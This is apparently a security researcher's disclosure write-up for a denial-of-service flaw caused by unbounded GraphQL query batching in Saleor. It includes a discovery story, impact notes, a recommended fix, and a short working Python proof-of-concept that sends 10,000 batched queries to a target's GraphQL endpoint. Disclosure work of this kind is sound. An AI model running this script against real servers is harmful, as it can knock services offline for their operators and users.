


# CVE-2026-33756 - Denial of Service via Unbounded GraphQL Query Batching

### Application

**Application:** [Saleor](https://github.com/saleor/saleor/) ↗ • [GitHub Security Advisory](https://github.com/saleor/saleor/security/advisories/GHSA-24jw-f244-qfpp) ↗

| | |
|---|---|
| **Affected Versions** | `>=2.0.0,<3.23.0a3`<br>`>=2.0.0,<3.22.47`<br>`>=2.0.0,<3.21.54`<br>`>=2.0.0,<3.20.118` |
| **Patched Versions** | `3.23.0a3`<br>`3.22.47`<br>`3.21.54`<br>`3.20.118` |
| **Severity** | **High (CVSS 7.5)** |
| **CVSS Vector** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` |

---

### Story of Discovery

After studying common Denial of Service (DoS) vulnerabilities in GraphQL, I decided to look for real world applications that might be affected. Common GraphQL DoS vulnerabilities include batching attacks, alias overloading, field duplication, directive overloading, circular queries, circular fragments, and pagination limit bypasses.

I started testing a GraphQL based application called Saleor. The first technique I tried was a batching attack, where multiple GraphQL queries are sent simultaneously to consume excessive server resources. Initially, I sent three queries at the same time using Burp Suite. When I noticed that the server processed all of them successfully, I wrote a Python script to send 1,000 queries simultaneously. This resulted in excessive CPU usage on the server, confirming the vulnerability. I then responsibly reported the issue.

The funniest part is that this was only my second CVE, so I didn't check whether the application was vulnerable to the other GraphQL DoS attack techniques. After my report, the repository collaborator (or owner) discovered another DoS vulnerability caused by `alias overloading`. That's when I realized I had missed testing all the possible attack vectors.

It taught me a lesson. From then on, I focusing all the aspects!

### Summary

As the Application has the GraphQL API functionality which is without the maximum number of operations per request (batch size limit) and the GraphQL has public query feature which no needed of authorization which make it even worst. Which results in the Denial of Service

### Description

The Saleor application is vulnerable to Denial of Service due to unbounded GraphQL query batching.

Saleor contains the GraphQL API support which supports the query batching, by submitting multiple GraphQL operations in a single HTTP request as a JSON array. The handler in `saleor/graphql/views.py` processes every operation in the batch without enforcing any upper limit on the number of operations. This allows an unauthenticated attacker to send a single HTTP request containing thousands of operations (Bypassing the per query complexity limit) which leads to exhaustion of the server hosted this application, database connection and the memory.

The absence of a batch size limit combined with publicly accessible unauthenticated GraphQL queries (e.g., products) makes this vulnerability trivially exploitable with minimal bandwidth and no credentials.

### PoC

Here I used 10000 number of batch query, the query count varies according to the target

Resource usage before running the batch query:

```
sudo docker stats saleor-platform-api-1
```



Resource usage during the DoS Attack:



**PoC Script:**

```
#!/usr/bin/env python3

# python3 verify_dos.py <ip_address>:<port>

import json, sys, urllib.request

target = sys.argv[1].rstrip("/") + "/graphql/"
payload = json.dumps([{"query": "{ shop { name } }"}] * 10000).encode()
req = urllib.request.Request(target, data=payload,
      headers={"Content-Type": "application/json"}, method="POST")

try:
    with urllib.request.urlopen(req, timeout=30) as r:
        body = json.loads(r.read())
        if isinstance(body, list) and len(body) > 0:
            print(f"Server accepted batch of {len(body)} operations with no limit")
        else:
            print("Unexpected response:", str(body)[:100])
except urllib.error.HTTPError as e:
    if e.code == 400:
        print("Server rejected batch with HTTP 400")
    else:
        print(f" HTTP {e.code}")
```

### Impact

Exhausting the server's CPU which hosted the application, database connections, and memory, Uvicorn async workers are blocked due DoS.

### Recommended Fix

If the batching is not need then completely disable of it is a best way or set a maximum number of GraphQL operations allowed in a single batched request.